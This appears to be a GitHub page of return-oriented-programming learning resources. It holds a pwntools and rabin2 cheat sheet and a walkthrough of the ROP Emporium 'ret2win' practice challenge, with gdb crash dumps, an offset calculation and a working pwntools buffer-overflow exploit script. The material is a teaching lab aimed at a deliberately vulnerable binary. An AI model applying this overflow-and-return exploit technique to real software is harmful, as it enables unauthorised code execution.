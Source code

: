 # ROP Resources

### Introduction
https://en.wikipedia.org/wiki/Return-oriented_programming    

### John Hammond ROP walkthrough
https://www.youtube.com/watch?v=i5-cWI_HV8o  

### ROP Basics

> Thanks to [Legacyy](https://github.com/iilegacyyii) for helping me learn ROP Binary Exploitation

```
from pwn import *

process("./vuln") #open a binary
remote("127.0.0.1", 1337) #will connect to service at 127.0.0.1 at 1337

p.sendline(buf) # sends data of buf
p.recv() # receive everything
p.recvuntil("> ") # receive a string up until a given string (requires a param)
p.interactive() # allows the user to interact with the binary
p32() # packs an address in little endian format for 32bit
p64() # packs an address in little endian format for 64bit

ROPgadget --binary <binaryname> # to retrieve a list of gadgets

rabin2 -S binary # sections (e.g .data)
rabin2 -R binary # relocations (similar to imports e.g relro)
rabin2 -i binary # imports (Anything imported)
rabin2 -z binary # vaddresses with strings
```

# ROP Adventures from ropemporium.com


# ROP Challenge (ret2win)

https://ropemporium.com/challenge/ret2win.html

### objective: Try to obtain the flag by taking advantage of the ret2win function

### Testing the app

Triggering the segment fault

```asm
gdb-peda$ r
Starting program: /ret2win/ret2win32 
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xb ('\x0b')
EBX: 0x0 
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7fa8000 --> 0x1e4d6c 
EDI: 0xf7fa8000 --> 0x1e4d6c 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd690 ("AAAAAA\n\377")
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffffd690 ("AAAAAA\n\377")
0004| 0xffffd694 --> 0xff0a4141 
0008| 0xffffd698 --> 0x0 
0012| 0xffffd69c --> 0xf7de1df6 (<__libc_start_main+262>:       add    esp,0x10)
0016| 0xffffd6a0 --> 0xf7fa8000 --> 0x1e4d6c 
0020| 0xffffd6a4 --> 0xf7fa8000 --> 0x1e4d6c 
0024| 0xffffd6a8 --> 0x0 
0028| 0xffffd6ac --> 0xf7de1df6 (<__libc_start_main+262>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```

### understanding what's being overwritten

Using python to generate 40 bytes of A's, 4 Bytes of B's and 4 Bytes of C's.

```python
>>> print "A"*40 + "B"*4 + "C"*4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC
```

Below code will show us that EBP has been overwritten with B's and the EIP has been overwritten with C's. We now know the returning instruction (EIP) we have control of. After 44 bytes we can now send over our payload.

```asm
gdb-peda$ r
Starting program: /ret2win/ret2win32 
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC
Thank you!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xb ('\x0b')
EBX: 0x0 
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7fa8000 --> 0x1e4d6c 
EDI: 0xf7fa8000 --> 0x1e4d6c 
EBP: 0x42424242 ('BBBB')
ESP: 0xffffd690 --> 0xf7fe400a ((bad))
EIP: 0x43434343 ('CCCC')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x43434343
[------------------------------------stack-------------------------------------]
0000| 0xffffd690 --> 0xf7fe400a ((bad))
0004| 0xffffd694 --> 0xffffd6b0 --> 0x1 
0008| 0xffffd698 --> 0x0 
0012| 0xffffd69c --> 0xf7de1df6 (<__libc_start_main+262>:       add    esp,0x10)
0016| 0xffffd6a0 --> 0xf7fa8000 --> 0x1e4d6c 
0020| 0xffffd6a4 --> 0xf7fa8000 --> 0x1e4d6c 
0024| 0xffffd6a8 --> 0x0 
0028| 0xffffd6ac --> 0xf7de1df6 (<__libc_start_main+262>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x43434343 in ?? ()
```

### What is the payload?

```asm
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x08048374  _init
0x080483b0  read@plt
0x080483c0  printf@plt
0x080483d0  puts@plt
0x080483e0  system@plt
0x080483f0  __libc_start_main@plt
0x08048400  setvbuf@plt
0x08048410  memset@plt
0x08048420  __gmon_start__@plt
0x08048430  _start
0x08048470  _dl_relocate_static_pie
0x08048480  __x86.get_pc_thunk.bx
0x08048490  deregister_tm_clones
0x080484d0  register_tm_clones
0x08048510  __do_global_dtors_aux
0x08048540  frame_dummy
0x08048546  main
0x080485ad  pwnme
0x0804862c  ret2win <-- function to obtain the flag, we will need to return to 0x0804862c
0x08048660  __libc_csu_init
0x080486c0  __libc_csu_fini
0x080486c4  _fini
gdb-peda$ 
```

Let's craft a script to automate our exploitation

```python

from pwn import *

p = process("./ret2win32") # Calling the ret2win binary

ret2win = p32(0x0804862c) # setting variable ret2win as address for function ret2win

buf = b"" 
buf += b"A"*44 # filling the buffer with 44 bytes of A's
buf += ret2win # ret2win function as our returning instruction

p.sendline(buf) # sends the payload to the binary
p.interactive() # makes the session interactive
```

Mission completed

```asm
[+] Starting local process './ret2win32': pid 8034
[*] Switching to interactive mode
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

